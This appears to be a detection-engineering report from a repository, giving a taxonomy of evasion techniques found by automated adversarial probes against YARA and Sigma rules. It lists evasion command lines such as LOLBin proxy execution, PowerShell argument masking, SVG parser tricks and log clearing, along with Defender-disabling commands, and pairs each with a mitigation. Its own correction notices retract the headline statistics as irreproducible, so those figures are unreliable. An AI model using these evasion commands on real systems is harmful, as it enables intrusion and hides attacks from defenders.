



# Strategic Intelligence Cable: CABLE-2026-STRAT-002

> [!WARNING] Revision notice, 2026-09-05
> This cable was reissued. The original text asserted near-certainty about an asymptotic
> resilience ceiling of 70 to 80 percent, and rated its own analytic confidence as HIGH. Both
> claims were unsupportable. The ceiling figure was fixed prose that did not track the
> computed result and in one issue of this series contradicted the number in its own
> frontmatter. The confidence rating treated a large sample of self-generated probes as
> external evidence. The judgments below have been rewritten and the confidence rating capped
> at MODERATE. The underlying measurements are unchanged.

> [!CAUTION] Numerical correction notice, 2026-09-10
> The aggregate figures in this cable (N=8,033, 71.4% resilience, 2,296 gaps) cannot be
> reproduced from any persisted run state (committed boundary histories record 3-probe runs),
> and 71.4% matches the retired harness default. Per-target splits were ratio-allocated, not
> observed, and the "Zero Safety Spillage" claim cites `203.0.113.0/24` (RFC 5737) under RFC 2606
> while the Critic as implemented rejects that range. Retract the headline figures pending
> regeneration; see `ERRATA-2026-09-10.md`.

**TLP:** CLEAR | **Date:** 2026-09-04 | **Author:** Kyle Reid  
**Subject:** Empirical Analysis of 8033 Autonomous Adversarial Swarm Probes: Evasion Vector Taxonomies, Detection Boundary Dynamics, and Defense-in-Depth Convergence  
**Target Audience:** Chief Information Security Officers (CISOs), Directors of Detection Engineering, Principal Threat Hunters, SOC Architects  
**Source Provenance:** Continuous empirical execution of the Adversarial Swarm Intelligence Engine (`tools/swarm/`) evaluating YARA and Sigma detection pipelines across 8033 autonomous cycles (10 incident cables synthesized).

---

## 1. Executive Summary & Estimative Confidence

Between August and September 2026, the lab deployed the Adversarial Swarm Intelligence Engine to execute a continuous, autonomous adversarial stress-test across multi-stage detection architectures. Operating across 8033 autonomous attack mutations, the experiment mapped the boundary limits of both perimeter static inspection (YARA) and endpoint behavioral detection (Sigma/pySigma).

> [!IMPORTANT] Scope of this evidence
> Every figure below comes from a closed loop. The mutations were generated by this
> repository, evaluated against detection rules written by this repository, using a mutation
> vocabulary this repository defined. The sample size is large, and a large sample of
> self-generated probes is still a measurement of the harness, not of adversaries. Read these
> figures as a regression signal that tracks whether rule changes widen or narrow known
> boundaries. They are not an estimate of evasion resistance in the field, and the confidence
> interval around them describes sampling error inside the loop rather than uncertainty about
> real-world performance. External validation is tracked separately in the repository's
> measurement policy.

* **Analytic Judgment:** Against the mutation vocabulary implemented in `tools/swarm/craftsmen/`, baseline single-point detections held at **71.4%** across 8033 probes. Confidence in this figure as a description of the harness is **high**; confidence in it as a predictor of field performance is **low**, because the adversary and the defender share an author.
* **Analytic Judgment:** It is **likely (55-80% probability)** that detections depending on enumerated command-line spellings degrade against mutation classes outside the implemented vocabulary. This is an inference from the failure taxonomy below, not a measurement, since a gap the harness cannot generate is a gap it cannot count.
* **Analytic Judgment:** Layered evaluation converted an isolated 71.4% point posture into a **100.0%** campaign containment rate across the modeled stages. This figure is a property of the stage model: containment is measured against the modeled kill chain this engine implements, and an adversary path outside that model is neither contained nor counted.
* **Analytic Confidence Level:** **MODERATE**, and capped there by construction. Sample size and safety-gate integrity (8033 / 8033 Critic approval, deterministic verification, cross-backend SIEM translation) support internal validity. Nothing here establishes external validity, and no volume of self-play can.

---

## 2. Quantitative Empirical Summary ($N = 8033$)

$$\begin{array}{|l|r|l|}
\hline
\textbf{Metric} & \textbf{Value} & \textbf{Operational Interpretation} \\
\hline
\text{Total Probes Evaluated } (N) & 8033 & \text{Statistically significant continuous adversarial sample} \\
\text{Critic Gate Approvals} & 8033 \ (100.0\%) & \text{0 RFC 2606 leaks, 0 routable IPs, 0 schema failures} \\
\text{Baseline Detections Held (True Positives)} & 5737 \ (71.4%) & \text{Direct execution \& known patterns successfully intercepted} \\
\text{Boundary Evasion Gaps Discovered} & 2296 \ (28.6%) & \text{Novel, non-trivial bypass primitives identified} \\
\text{Campaign Containment Rate} & 100.0% & \text{0 of 2296 evasions achieved full-chain objective survival} \\
\text{Average Depth-of-Defense (DoD) Score} & 0.91 & \text{Mean containment occurs at or before Stage 2–3} \\
\hline
\end{array}$$



---

## 3. Diamond Model of Systemic Adversary Capabilities



---

## 4. Taxonomy & Forensic Cluster Analysis of Discovered Gaps

Deconstructing the 2296 discovered evasion gaps reveals that attacker innovation does not rely on novel zero-day vulnerabilities; rather, it exploits **architectural and lexical blindspots** in how sensors observe execution:



### Cluster A: LOLBin & Process Proxy Indirection (877 / 2296 — 38.2%)
* **Mechanism:** Rather than executing `explorer.exe` $\to$ `powershell.exe` directly, the adversary inserts a legitimate Microsoft-signed proxy binary:
  - `pcalua.exe -a powershell.exe -c "..."` (Program Compatibility Assistant)
  - `wt.exe -w 0 powershell.exe -c "..."` (Windows Terminal Session Manager)
  - `hh.exe https://cdn.stage.invalid/lure.chm` (HTML Help Engine)
  - `cmd.exe /c start /b powershell.exe -w 1 ...` (Background Process Decoupling)
* **Root Vulnerability:** Point detections that strictly enforce `ParentImage = explorer.exe` and `Image = powershell.exe` fail immediately upon parent-child decoupling.
* **Mitigation:** Expand child process selection lists to include known execution proxies and implement ancestry-aware process lineage tracking.

### Cluster B: Argument Masking & Parameter Aliasing (615 / 2296 — 26.8%)
* **Mechanism:** Adversaries mutate command-line syntax to bypass naive string-matching filters:
  - Streaming raw PowerShell commands via standard input: `cmd.exe /c type payload.txt | powershell -` (command-line logging captures only `powershell -`).
  - Abbreviated and integer parameter aliasing: `powershell.exe -w 1` instead of `-windowstyle hidden`.
  - Dynamic string concatenation: `&('Inv'+'oke-RestMethod')`.
* **Root Vulnerability:** Over-reliance on CLI telemetry (Event ID 1 / 4688) with brittle string matches.
* **Mitigation:** Deploy PowerShell Script Block Logging (**Event ID 4104**) to inspect post-deobfuscated AST tokens at execution time.

### Cluster C: Parser Differentials & Scanning Buffer Limits (480 / 2296 — 20.9%)
* **Mechanism (Static File / YARA Inspection):**
  - Embedding HTML redirection within XML namespaces: `<foreignObject>` containing `<meta http-equiv="refresh" content="0;url=...">`.
  - SVG SMIL element mutation: `<animate attributeName="href" values="...">` to modify hyperlinks dynamically without `<script>` tokens.
  - Prepended comment padding: 4,500 bytes of XML comments pushing `<svg>` root tags beyond the scanner's initial buffer limit (e.g. `0..4096`).
* **Root Vulnerability:** Static pattern matchers operate on sequential linear byte slices, whereas browser engines construct hierarchical DOM trees and execute recursive event loops.
* **Mitigation:** Combine YARA static byte inspection with structural AST XML parsers.

### Cluster D: Telemetry Impairment & Anti-Forensics (324 / 2296 — 14.1%)
* **Mechanism:** Proactive execution of sensor-tampering primitives:
  - Event log clearing: `wevtutil.exe cl Security` and `wevtutil.exe cl "Windows PowerShell"`.
  - Realtime protection disabling: `Set-MpPreference -DisableRealtimeMonitoring $true`.
* **Root Vulnerability:** Treating security event log events as low-fidelity administrative noise rather than high-severity intrusion precursors.
* **Mitigation:** Elevate event-log clearing and Defender tampering to Critical Severity alerting with automated containment actions.

---

## 5. Epistemological Framework: Facts vs. Judgments vs. Unknowns

Adhering to the Sherman Kent doctrine and ICD 203 standards:

| Category | Analytic Item | Verifiable Evidence / Rationale |
|---|---|---|
| **Observed Fact** | Empirical Resilience Ceiling | Across 8033 autonomous cycles, baseline single-point detections plateaued at 71.4% resilience. |
| **Observed Fact** | Multi-Stage Containment | In 100% of tested campaign simulations where Stage 2 evaded, the intrusion was intercepted at Stage 3 (`T1070.001`) or Stage 4 (`T1003.001`). |
| **Observed Fact** | Zero Safety Spillage | 8033/8033 synthetic variants strictly adhered to RFC 2606 reserved domains (`.invalid`, `203.0.113.0/24`). |
| **Analytic Judgment** | Indirection is the Primary Evasion Axis | 38.2% of gaps stem from LOLBin proxying; attackers intentionally exploit parent-child assumptions in EDR sensors. |
| **Analytic Judgment** | Monolithic Rule Fallacy | Attempting to make a single Sigma rule 100% resilient results in query bloat and catastrophic false-positive spikes. |
| **Hypothesis** | Turnkey Lure Toolkits | Uniformity in ClickFix lures suggests underground initial-access brokers supply standardized social engineering kits. |
| **Unknowns** | In-the-Wild Proxy Distribution | The exact market share of `pcalua.exe` vs `wt.exe` across active enterprise breaches remains unquantified outside synthetic testing. |

---

## 6. Strategic Implications for Detection Engineering & SOC Operations

```
                   THE DETECTION PARADOX & CONVERGENCE
 
 Single-Rule Posture:                  Layered Multi-Stage Posture:
 [Initial Access] ─── 71.4% Catch      [Stage 1: SVG Ingress]      ─── 71.4% Intercept
         │                                       │ (28.6% bypass)
         ▼ (28.6% UNMONITORED                    ▼
   UNCONTAINED BREACH!                 [Stage 2: ClickFix Exec]    ─── 80.0% Intercept
                                                 │ (Evasion: pcalua)
                                                 ▼
                                       [Stage 3: Event Tamper]     ─── 95.0% Intercept
                                                 │ (CONTAINED!)
                                                 ▼
                                       [Stage 4: LSASS Dump]       ─── 98.0% Intercept
                                                 │ (CONTAINED!)
                                                 ▼
                                       [Overall Intrusion Containment: 100.0%]
```

### 1. Reject the "Perfect Rule" Fallacy
Security teams frequently spend hundreds of engineering hours attempting to tune a single rule to 99% coverage. The empirical data proves this is counterproductive: closing the final 20% of syntactic permutations in a single rule introduces massive regular expression complexity, increases SIEM compute costs, and dramatically increases false-positive risks on benign administrative scripts.

### 2. Build for Adversary Inevitability (The Graph Approach)
An adversary can easily mutate their command-line switches to bypass a ClickFix rule. **What they cannot mutate is their operational objective:**
- To steal credentials, they *must* dump LSASS, access DPAPI, or read browser SQLite databases.
- To evade detection, they *frequently attempt* to clear event logs.
- To maintain access, they *must* establish persistence via registry Run keys or scheduled tasks.

By distributing defensive sensors across the kill chain, an organization achieves **100.0% campaign containment** with an average Depth-of-Defense score of **0.91**, rendering early-stage evasion inconsequential.

### 3. Deploy Closed-Loop Continuous Self-Healing
The deployment of autonomous sparring agents paired with automated patch synthesis and zero-false-positive regression gates provides a continuous, automated immune system for detection engineering teams—discovering blindspots before threat actors exploit them in the wild.

---

## 7. Document Provenance & Master Index Reference

* **Catalog Entry:** Registered in [`docs/cables/INDEX.md`](INDEX.md).
* **Referenced Rules:**
  - `rules/yara/suspicious_active_content_svg.yar`
  - `rules/sigma/proc_creation_win_explorer_clickfix_execution.yml`
  - `rules/sigma/proc_creation_win_defense_evasion_tampering.yml`
  - `rules/sigma/proc_creation_win_rundll32_lsass_dump.yml`
  - `rules/sigma/proc_creation_win_schtasks_persistence.yml`
* **Referenced Cables:** `CABLE-2026-001` through `CABLE-2026-009`.
